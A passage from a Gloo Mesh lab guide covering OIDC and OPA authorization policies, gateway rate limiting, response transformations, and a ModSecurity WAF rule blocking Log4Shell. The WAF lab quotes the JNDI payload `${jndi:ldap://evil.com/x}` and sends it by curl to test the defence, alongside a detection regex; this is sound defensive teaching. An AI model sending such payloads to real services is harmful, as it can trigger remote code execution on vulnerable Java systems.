      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: https://${ENDPOINT_HTTPS_GW_CLUSTER1}
            callbackPath: /callback
            clientId: ${OIDC_CLIENT_ID}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${ISSUER_URL}"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: httpbin-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
      - opaAuth:
          modules:
          - name: httpbin-opa
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```
Now we should see success when logging in with a username that ends with `@gmail.com`


### Use OPA to enforce a specific HTTP method
Let's continue to expand on our example by enforcing different HTTP methods for our two types of users
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: httpbin-opa
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@gmail.com")
        any({input.http_request.method == "POST",
             input.http_request.method == "PUT",
             input.http_request.method == "DELETE",
    })
    }
EOF
```

If you refresh the browser where the `@gmail.com` user is logged in, we should now see a `403 Error - You don't have authorization to view this page`. This is because we are not allowing the `GET` method for either of those matches in our OPA policy

Let's fix that
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: httpbin-opa
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@gmail.com")
        any({input.http_request.method == "GET",
             input.http_request.method == "POST",
             input.http_request.method == "PUT",
             input.http_request.method == "DELETE",
    })
    }
EOF
```

Now we should be able to access our app again.

### Enforce paths with OPA
Let's continue to expand on our example by enforcing a specified path for our users

Here we will modify our rego rule so that users with `@solo.io` can access the `/get` endpoint as well as any path with the prefix `/anything`, while users with `@gmail.com` can only access specifically the `/anything/protected` endpoint
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: httpbin-opa
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@gmail.com")
        any({input.http_request.path == "/get",
        startswith(input.http_request.path, "/anything")
    })
        any({input.http_request.method == "GET",
             input.http_request.method == "POST",
             input.http_request.method == "PUT",
             input.http_request.method == "DELETE",
    })
    }
EOF
```
If you refresh the browser where the `@solo.io` user is logged in, we should be able to access the `/get` endpoint as well as any path with the prefix `/anything`. Try and access `/anything/foo` for example - it should work.

## Lab 3 - Apply rate limiting to the Gateway <a name="Lab-3-gw"></a>
In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitClientConfig` object to define the descriptors:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: "per-minute"
      - remoteAddress: {}
EOF
```

Then, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: httpbin
  namespace: gloo-mesh-addons
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    descriptors:
      - key: generic_key
        value: "per-minute"
        descriptors:
          - key: remote_address
            rateLimit:
              requestsPerUnit: 5
              unit: MINUTE
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: httpbin
      cluster: cluster1
    ratelimitClientConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    ratelimitServerConfig:
      name: httpbin
      namespace: gloo-mesh-addons
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3
EOF
```

We also need to create a `RateLimitServerSettings`, which is a CRD that define which extauth server to use: 

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: httpbin
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Finally, you need to update the `RouteTable` to use this `RateLimitPolicy`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /anything
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Refresh the web page multiple times.

You should get a `200` response code the first 5 times and a `429` response code after.

## Lab 4 - Use the Transformation filter <a name="Lab-4-gw"></a>

### manipulate :status pseudo-header when rate limited
Lets try a simple use case leveraging the transformation filter output when rate limited. For our first case, lets say our application expects a `529` header instead of the default `429` header returned when rate limited by Envoy. We can let the transformation filter handle that!
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: ratelimit-transformation
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    phase:
      preAuthz:
        priority: 0
    response:
      injaTemplate:
        headers:
          ":status":
            text: '529{{ header(":status") }}'  
EOF
```

Refresh the web browser and we will see that the HTTP ERROR has changed from 429 to 529. Now my application will be happy with the correct error output when rate limited

### manipulate the response body when rate limited
Let's use the transformation filter to manipulate the response body when rate limited. For our first example we will just output a styled html page in the browser with an error message
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: ratelimit-transformation
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    phase:
      preAuthz:
        priority: 0
    response:
      injaTemplate:
        body:
          text: '<html><body style="background-color:powderblue;"><h1>Too
            many Requests!</h1><p>Try again after a minute</p></body></html>{{ body() }}'
        parseBodyBehavior: DontParse
EOF
```

Now if we refresh the page in the browser we should see a blue error page that says
```
Too many Requests!
Try again after a minute
```

## Lab 5 - Use the Web Application Firewall filter <a name="Lab-5-gw"></a>
A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. Thats what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl --context ${CLUSTER1} apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Next, you need to update the httpbin `RouteTable` to use this `WAFPolicy`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
        waf: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /anything
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k https://${ENDPOINT_HTTPS_GW_MGMT}/get -i
```

The request should be rejected:
```
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

### cleanup labs 2-6
Not necessary, but if you want to clean up the extauth, rate limit, WAF, and transformation objects from these past couple labs you can use the commands below

First let's apply the original `RouteTable` yaml:
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /anything
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Then we can also delete the various policies we've created:
```
# rate limiting
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitclientconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserversettings rate-limit-server

# transformation
kubectl --context ${CLUSTER1} -n httpbin delete transformationpolicy ratelimit-transformation

# WAF
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies.security.policy.gloo.solo.io log4shell

# extauth config
kubectl --context ${CLUSTER1} -n httpbin delete ExtAuthPolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete secret oauth
kubectl --context ${CLUSTER1} -n httpbin delete ExtAuthServer ext-auth-server

# opa config
kubectl --context ${CLUSTER1} -n httpbin delete configmap httpbin-opa
```
